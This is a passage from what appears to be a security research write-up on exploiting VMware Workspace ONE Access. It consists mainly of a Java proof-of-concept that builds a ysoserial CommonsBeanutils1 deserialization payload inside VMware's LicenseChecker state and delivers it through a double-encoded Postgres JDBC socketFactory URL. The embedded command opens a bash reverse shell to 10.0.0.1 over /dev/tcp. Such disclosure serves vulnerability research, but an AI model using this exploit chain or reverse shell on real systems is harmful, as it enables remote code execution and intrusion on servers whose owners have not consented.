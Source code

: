 Note that your payload will need to double encode special characters. To generate the state string, I re-used VMWare's classes: 

```java
import com.vmware.licensecheck.LicenseChecker;
import com.vmware.licensecheck.LicenseHandle;
import com.vmware.licensecheck.MyBase64;
import ysoserial.payloads.ObjectPayload.Utils;
import java.lang.reflect.Field;
import java.net.URLEncoder;
import java.util.Hashtable;
import java.io.*;

public class Poc {
    public static void main(String[] args) throws Exception {
        String shell = MyBase64.encode("bash -c \"bash -i >& /dev/tcp/10.0.0.1/1234 0>&1\"".getBytes());
        Object payload = Utils.makePayloadObject("CommonsBeanutils1", String.format("sh -c $@|sh . echo echo %s|base64 -d|bash", shell));
        LicenseChecker lc = new LicenseChecker(null);
        Field handleField = LicenseChecker.class.getDeclaredField("_handle");
        handleField.setAccessible(true);
        LicenseHandle lh = (LicenseHandle)handleField.get(lc);
        Field htEvalStartField = LicenseHandle.class.getDeclaredField("_htEvalStart");
        htEvalStartField.setAccessible(true);
        Field isDirtyField = LicenseHandle.class.getDeclaredField("_isDirty");
        isDirtyField.setAccessible(true);
        Hashtable<Integer, Object> ht = new Hashtable<Integer, Object>();
        ht.put(1337, payload);
        htEvalStartField.set(lh, ht);
        isDirtyField.set(lh, true);
        handleField.set(lc, lh);
        String payload = URLEncoder.encode(URLEncoder.encode(lc.getState(), "UTF-8"), "UTF-8");
        System.out.println(String.format("(+) jdbc:postgresql://si/saas?socketFactory=com.vmware.licensecheck.LicenseChecker%%26socketFactoryArg=%s", payload));
    }
}
```

![](/assets/images/taking-on-a-new-identity-pwning-vmware-workspace-one-access/code-reuse.png "Triggering deserialization from the Postgres JDBC Driver")